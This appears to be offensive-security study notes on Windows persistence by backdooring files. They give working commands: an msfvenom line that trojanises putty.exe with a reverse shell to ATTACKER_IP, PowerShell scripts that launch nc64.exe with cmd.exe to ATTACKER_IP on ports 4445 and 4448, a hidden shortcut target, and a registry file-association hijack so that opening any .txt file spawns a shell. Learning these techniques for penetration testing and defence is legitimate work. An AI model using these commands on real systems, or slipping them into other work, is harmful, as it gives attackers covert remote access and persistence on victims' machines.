



# Backdooring Files

## Executable Files

If we find any executable files having hight chance that user might use it frequently then we can download the executable to our attacking machine and modify it to run payload.

For this we can use `msfvenom`.

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The outputed puttyX.exe will execute a reverse\_tcp meterpreter payload while doing its actual job.

## Shortcut Files

Instead of altering the actual executable file, we can tamper its shorcut file to execute backtoor and then execute the usual program.

<figure><figcaption></figcaption></figure>

In Calculator shortcut, we can change the target parameter to point to our malcious backdoor script.

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

we will save this script in `C:\Windows\System32\backdoor.ps1` then change the shortcut's Target Parameter as;

```
powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1
```

## Hijacking File Associations

We can hijack any file association to force the operating system to run a shell whenever the user opens a specific file type.

In windows, file assocations are kept inside the registry `HKLM\Software\Classes`

<figure><figcaption></figcaption></figure>

For example, `.txt` is associated with `txtfile`  Programmatic ID (progid). progid is simply and identifier to a program installed ont he system.

We can further check the subkey of progid under `shell\open\command`

<figure><figcaption></figcaption></figure>

When we try to open .txt file, then system executes `%SystemRoot%\system32\NOTEPAD.EXE %1`, where `%1` represents the name of the opened file.

We can change this parameter to execute our backdoor script.

lets create backdoor.ps1 script and save it in c:\windows

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Then edit the registry value as;

<figure><figcaption></figcaption></figure>

Then when .txt file is opened, out backdoor gets trigerred hence giving us shell.
